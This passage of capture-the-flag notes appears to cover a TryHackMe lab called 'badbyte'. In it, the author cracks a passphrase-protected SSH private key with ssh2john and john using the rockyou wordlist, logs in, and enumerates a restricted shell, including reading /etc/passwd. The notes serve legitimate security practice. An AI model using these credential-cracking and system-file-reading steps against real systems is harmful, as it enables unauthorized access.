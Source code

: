 - 2nd one is private RSA key

- private rsa key is passphrase protected

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/badbyte]
└──╼ $ssh errorcauser@10.10.78.166 -i id_rsa
Enter passphrase for key 'id_rsa':
```


### Shell

- using [[ssh2john]] to crack the passphrase

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/badbyte]
└──╼ $sudo python2 /usr/share/john/ssh2john.py id_rsa > forjohn.txt
```


```
┌─[glack@parrot]─[~/Desktop/THM/badbyte]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt
```

- we get a hit
`cupcake          (id_rsa)`

- However after getting a shell 
```
┌─[glack@parrot]─[~/Desktop/THM/badbyte]
└──╼ $ssh errorcauser@10.10.78.166 -i id_rsa
```

we are not able to run many commands as it is restricted

- I find a note with the contents
```
-bash-4.4$ cat note.txt
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)

```

- in the `bin` directory we can see what commands we can run as shell user
```
-rwxr-xr-x 1 root root 1113504 Mar 23  2021 bash
-rwxr-xr-x 1 root root   35064 Mar 23  2021 cat
-rwxr-xr-x 1 root root  100568 Mar 23  2021 date
-rwxr-xr-x 1 root root  133792 Mar 23  2021 ls
```

- in `/etc/pass` we get 
```
root:x:0:0:root:/root:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
...
...
pollinate:x:109:1::/var/cache/pollinate:/bin/false
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

